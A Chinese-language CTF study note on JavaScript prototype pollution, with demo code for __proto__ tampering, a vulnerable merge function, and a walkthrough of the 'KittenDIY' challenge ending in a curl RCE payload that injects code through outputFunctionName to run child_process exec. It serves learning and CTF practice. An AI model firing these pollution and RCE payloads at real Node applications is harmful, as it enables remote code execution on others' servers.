



# 原型链污染

## type first

```javascript
linux:
    sudo su   ---> get root
    apt install nodejs  --->get nodejs
    apt install npm  --->get npm
windows:
	https://nodejs.org/
```

- refer:[https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html](https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html)
- refer:[https://blog.codesec.work/f0ee9a055ee1/](https://blog.codesec.work/f0ee9a055ee1/)

## what is it??

**原型链污染的概念是什么?**

在一个应用中，如果攻击者控制并修改了一个对象的原型，那么将可以影响所有和这个对象来自同一个类、父祖类的对象。这种攻击方式就是原型链污染。

- code

```js
function Foo() {
    this.bar = 1
}

Foo.prototype.show = function show() {
    console.log(this.bar)
}

let foo = new Foo()
foo.show()

//output -> 1
```

我们可以认为原型`prototype`是类`Foo`的一个属性，而所有用`Foo`类实例化的对象，都将拥有这个属性中的所有内容，包括变量和方法。

我们可以通过`Foo.prototype`来访问`Foo`类的原型，但`Foo`实例化出来的对象，是不能通过prototype访问原型的。

一个Foo类实例化出来的foo对象，可以通过`foo.__proto__`属性来访问Foo类的原型

简而言之：用 prototype 无法直接访问，需要使用 `__proto__` 访问。prototype 是一个指针属性。

```js
foo.__proto__ == Foo.prototype 
console.log(foo.__proto__ == Foo.prototype)
//output -> true
```

- `__proto__`：指向原型对象的构造器。
- `constructor`：指向当前对象的构造器。


**原型链污染是什么?**

`foo.__proto__`指向的是`Foo`类的`prototype`。那么，如果我们修改了`foo.__proto__`中的值，就可以修改Foo类

```js
// foo是一个简单的JavaScript对象
let foo = {bar: 1}

// foo.bar 此时为1
console.log(foo.bar)

// 修改foo的原型（即Object）
foo.__proto__.bar = 2

// 由于查找顺序的原因，foo.bar仍然是1 //jiujinyz
console.log(foo.bar)

// 此时再用Object创建一个空的zoo对象
let zoo = {}

// 查看zoo.bar
console.log(zoo.bar)//output --> 2
```

**哪些情况下原型链会被污染**

哪些情况下我们可以设置`__proto__`的值呢？其实找找能够控制数组（对象）的“键名”的操作即可

```js
function merge(target, source) {
    for (let key in source) {
        if (key in source && key in target) {
            merge(target[key], source[key])
        } else {
            target[key] = source[key]
        }
    }
}
```

在合并的过程中，存在赋值的操作`target[key] = source[key]`，那么，这个key如果是`__proto__`，是不是就可以原型链污染

```js
let o1 = {}
let o2 = JSON.parse('{"a": 1, "__proto__": {"b": 2}}')
merge(o1, o2)
console.log(o1.a, o1.b)

o3 = {}
console.log(o3.b)
```

JSON解析的情况下，`__proto__`会被认为是一个真正的“键名”

## example KittenDIY 150pt



code

```js
//......
```

test

```shell
curl -H 'Content-Type: application/json' http://localhost:3000/diy -d '{"fakename":"asd"}'

curl -H 'Content-Type: application/json' http://localhost:3000/diy -d '{"__proto__":"asd"}'
//TypeError: JSON-Patch: modifying `__proto__` prop is banned for security reasons
```

由于出题人太懒post没写回显所以post没反应很正常，自己切回主页就能看到效果

bypass

```javascript
console.log(kitten.__proto__ == kitten.constructor.prototype)
//output --> true
```

payload here **push**

```shell
"path": "/" + property

curl -H 'Content-Type: application/json' http://localhost:3000/diy -d '{"constructor/prototype/ffffake":"asd"}'
```



- CVE-2020-7699 [https://www.freebuf.com/vuls/246029.html](https://www.freebuf.com/vuls/246029.html)

rce payload

```
curl -H 'Content-Type: application/json' http://localhost:3000/diy -d "{\"constructor/prototype/outputFunctionName\":\"_tmp1;global.process.mainModule.require('child_process').exec('curl 127.0.0.1:11333');var __tmp2\"}"
```


